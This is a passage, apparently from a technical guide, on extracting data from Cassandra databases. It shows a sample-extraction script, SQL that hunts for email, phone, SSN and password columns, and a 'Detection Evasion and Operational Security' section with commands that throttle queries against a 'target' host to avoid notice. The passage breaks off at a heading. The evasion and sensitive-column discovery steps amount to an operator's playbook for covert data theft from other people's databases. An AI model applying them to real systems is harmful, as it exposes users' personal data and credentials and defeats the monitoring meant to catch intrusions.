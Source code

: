 ```python
# Usage example
extractor = CassandraExtractor(['192.168.1.100'])
sample_data = extractor.extract_table_sample('user_data', 'profiles', 100)
extractor.export_to_json(sample_data, 'cassandra_sample.json')
```

### Privacy-Aware Data Analysis

```sql
-- Identify potentially sensitive columns
SELECT keyspace_name, table_name, column_name, type 
FROM system_schema.columns 
WHERE column_name LIKE '%email%' 
   OR column_name LIKE '%phone%' 
   OR column_name LIKE '%ssn%' 
   OR column_name LIKE '%password%';

-- Sample data patterns without extracting PII
SELECT LENGTH(email) as email_length, 
       SUBSTR(email, -10, 10) as domain_suffix 
FROM user_profiles LIMIT 10;

-- Statistical analysis without raw data exposure
SELECT COUNT(*) as total_users,
       COUNT(DISTINCT region) as regions,
       MAX(created_date) as latest_signup
FROM user_data;
```

---

## Detection Evasion and Operational Security

### Connection Rate Limiting

```bash
# Implement delays between queries
cqlsh -e "SELECT * FROM keyspace.table LIMIT 100;" && sleep 5

# Use connection pooling for efficiency
python3 -c "
from cassandra.cluster import Cluster
import time
cluster = Cluster(['target'], load_balancing_policy=RoundRobinPolicy())
for i in range(10):
    session = cluster.connect()
    rows = session.execute('SELECT * FROM system.local')
    time.sleep(2)
"
```

### Network-Level Considerations

